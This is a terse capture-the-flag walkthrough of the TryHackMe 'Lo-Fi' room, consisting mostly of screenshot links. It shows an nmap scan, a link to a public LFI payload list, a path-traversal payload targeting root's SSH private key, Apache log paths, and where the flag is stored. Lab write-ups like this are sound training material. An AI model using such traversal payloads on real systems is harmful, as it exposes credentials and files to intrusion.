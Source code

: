 https://tryhackme.com/room/lofi
>IP 10.10.216.128


```
sudo nmap -p- 10.10.216.128 -sC -sV -vv  
```
![Lo-Fi](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Lo-Fi/screenshots/2025-01-25071906.png)

![Lo-Fi](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Lo-Fi/screenshots/2025-01-25071719.png)


```
https://raw.githubusercontent.com/emadshanab/LFI-Payload-List/master/LFI%20payloads.txt
```
![Lo-Fi](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Lo-Fi/screenshots/2025-01-25072835.png)
## Grep

![Lo-Fi](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Lo-Fi/screenshots/2025-01-25073039.png)


![Lo-Fi](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Lo-Fi/screenshots/2025-01-25073359.png)\

```
../../..//root/.ssh/id_rsa 
```

![Lo-Fi](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Lo-Fi/screenshots/2025-01-25074045.png)

![Lo-Fi](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Lo-Fi/screenshots/2025-01-25074404.png)

```
/var/log/apache2/error.log
/var/log/apache2/access.log
```

Flag in /flag.txt
![Lo-Fi](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Lo-Fi/screenshots/2025-01-25075819.png)

